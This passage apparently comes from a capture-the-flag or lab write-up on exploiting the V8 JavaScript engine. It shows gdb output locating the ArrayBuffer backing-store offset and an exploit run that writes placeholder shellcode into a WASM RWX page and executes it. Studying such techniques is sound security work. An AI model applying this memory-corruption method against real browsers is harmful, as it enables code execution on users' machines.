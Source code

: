 

The offset from the ArrayBuffer to the backing store changed from 0x20
to 0x14 (pointer compression). I can find that with the debug version of
`d8`:



    df@buntu:~/v8$ gdb -q out.gn/x64.debug/d8 
    GEF for linux ready, type `gef' to start, `gef config' to configure
    80 commands loaded for GDB 9.2 using Python engine 3.8
    Reading symbols from out.gn/x64.debug/d8...
    gef➤  run --allow-natives-syntax --shell                                                     
    Starting program: /home/df/v8/out.gn/x64.debug/d8 --allow-natives-syntax --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7f09e2100700 (LWP 67750)]
    V8 version 8.5.0 (candidate)                                                                 
    d8> var buf = new ArrayBuffer(8);
    undefined                    
    d8> %DebugPrint(buf);        
    DebugPrint: 0x935080c5e29: [JSArrayBuffer]
     - map: 0x093508281189 <Map(HOLEY_ELEMENTS)> [FastProperties]
     - prototype: 0x0935082478c1 <Object map = 0x935082811b1>
     - elements: 0x0935080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
     - embedder fields: 2    
     - backing_store: 0x555ab153a820
    ...[snip]...
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x555ab15c0180, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    gef➤  x/12xw 0x935080c5e29-1
    0x935080c5e28:  0x08281189      0x080406e9      0x080406e9      0x00000008
    0x935080c5e38:  0x00000000      0xb153a820      0x0000555a      0xb159dc30 <-- backing store at 0x14
    0x935080c5e48:  0x0000555a      0x00000002      0x00000000      0x00000000



For now, I'll let the shellcode be four 0xCC, which is the
[INT3](https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3)
instruction that sets a breakpoint. If I hit this code, `gdb` will
break. When I run this, it does!



    gef➤  run --allow-natives-syntax exploit.js --shell
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7fd766778700 (LWP 67784)]
    [*] Creating WASM RWX page
    [+] Found pointer to wasm_instance: 0x82112bd
    [+] Found address of rwx page: 0x3937f5d78000
    [*] Copying shellcode tp rwx page
    [*] Executing shellcode...
